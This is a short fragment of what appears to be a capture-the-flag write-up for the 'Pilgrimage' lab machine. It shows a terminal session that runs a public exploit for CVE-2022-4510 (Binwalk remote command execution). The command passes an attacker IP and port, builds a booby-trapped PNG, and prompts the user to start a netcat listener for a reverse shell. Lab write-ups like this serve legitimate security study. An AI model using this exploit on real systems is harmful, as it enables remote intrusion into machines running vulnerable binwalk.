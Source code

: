 ![Untitled](/Vulnhub-Files/img/Pilgrimage/Untitled%206.png)

```bash
emily@pilgrimage:/tmp$ python3 exploit.py /var/www/pilgrimage.htb/shrunk/64faf96b8b4f4.png 10.10.14.25 4444

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################

You can now rename and share binwalk_exploit and start your local netcat listener.

emily@pilgrimage:/tmp$ ls
binwalk_exploit.png
exploit.py
systemd-private-4dfeccbe37e14f1094cda99040197a4d-systemd-logind.service-fSWTvf
systemd-private-4dfeccbe37e14f1094cda99040197a4d-systemd-timesyncd.service-JCrdOi
vmware-root_581-3979839684
emily@pilgrimage:/tmp$
```
{: .nolineno}
{: .nolineno}
